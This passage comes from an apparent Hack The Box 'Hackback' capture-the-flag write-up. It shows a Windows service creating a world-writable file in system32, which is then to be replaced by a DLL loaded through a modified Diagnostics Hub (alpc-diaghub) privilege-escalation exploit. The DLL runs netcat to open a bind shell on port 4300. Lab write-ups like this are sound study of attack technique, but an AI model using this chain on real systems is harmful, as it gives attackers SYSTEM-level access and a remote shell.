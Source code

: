 When I started the service with `sc start userlogger c:\windows\system\yolo` it created the `c:\windows\system32\yolo.log` file:

```
C:\Projects>dir c:\windows\system32\yolo.log
 Volume in drive C has no label.
 Volume Serial Number is 00A3-6B07

 Directory of c:\windows\system32

07/05/2019  03:25 AM                58 yolo.log
               1 File(s)             58 bytes
               0 Dir(s)  92,148,129,792 bytes free

C:\Projects>type c:\windows\system32\yolo.log
Logfile specified!
Service is starting
Service is running
```

I have full privileges to that file:

```
C:\Projects>icacls c:\windows\system32\yolo.log

c:\windows\system32\yolo.log Everyone:(F)

Successfully processed 1 files; Failed processing 0 files
```

So that means I can replace it with an arbitrary DLL and load it using the Diagnostics Hub Standard Collector Service privilege escalation exploit.

I modified the exploit from [https://github.com/realoriginal/alpc-diaghub](https://github.com/realoriginal/alpc-diaghub)

![](/assets/images/htb-writeup-hackback/alpc1.png)

I created a simple DLL that executes netcat to spawn another bind shell on port 4300:

![](/assets/images/htb-writeup-hackback/pwndll1.png)
